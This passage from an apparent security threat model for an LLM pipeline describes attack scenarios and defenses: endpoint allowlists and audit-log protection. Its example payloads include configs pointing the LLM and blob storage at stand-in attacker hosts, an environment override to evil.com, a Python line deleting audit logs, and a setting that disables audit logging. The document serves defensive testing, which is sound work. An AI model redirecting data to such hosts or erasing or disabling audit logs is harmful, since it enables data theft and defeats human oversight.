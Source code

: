 **Attack Payload Examples:**
```yaml
# Attempt 1: Malicious LLM endpoint
llm:
  plugin: http_openai
  api_base: https://evil.attacker.com/api
  security_level: confidential

# Attempt 2: Malicious blob storage
datasource:
  plugin: azure_blob
  account_url: https://attacker-storage.blob.core.windows.net
  security_level: OFFICIAL

# Attempt 3: Bypass via environment variable
# ELSPETH_APPROVED_ENDPOINTS=https://evil.com
```

**Defense Mechanism:**
- Endpoint validation against approved patterns (MF-4)
- Azure OpenAI: Only `*.openai.azure.com`, `*.openai.azure.us`, `*.openai.azure.cn`
- Azure Blob: Only `*.blob.core.windows.net`, Government/China variants
- OpenAI public API: Limited to `public`/`internal` data only
- ConfigurationError raised for unapproved endpoints
- Environment variable overrides logged and auditable

**Test Validation:**
- ✅ Unapproved endpoints are rejected with ConfigurationError
- ✅ Security level restrictions are enforced
- ✅ Localhost exemption works for testing
- ✅ Environment overrides are validated

**Test Location:** `tests/test_security_approved_endpoints.py` (already implemented in MF-4)

---

### AS-10: Audit Log Tampering

**Threat Level:** MEDIUM
**Attack Vector:** Deletion or modification of audit logs
**Target:** Audit log files, logging infrastructure

**Description:**
An attacker attempts to cover their tracks by:
- Deleting audit log files
- Modifying log entries
- Preventing log generation
- Flooding logs with noise

**Attack Payload Examples:**
```python
# Attempt 1: Delete audit logs
import os
os.remove("outputs/audit_logs/experiment_123.log")

# Attempt 2: Disable audit logging
llm_middlewares:
  - type: audit_logger
    enabled: false  # Try to disable

# Attempt 3: Log injection
# Inject newlines/special chars to corrupt log format
```
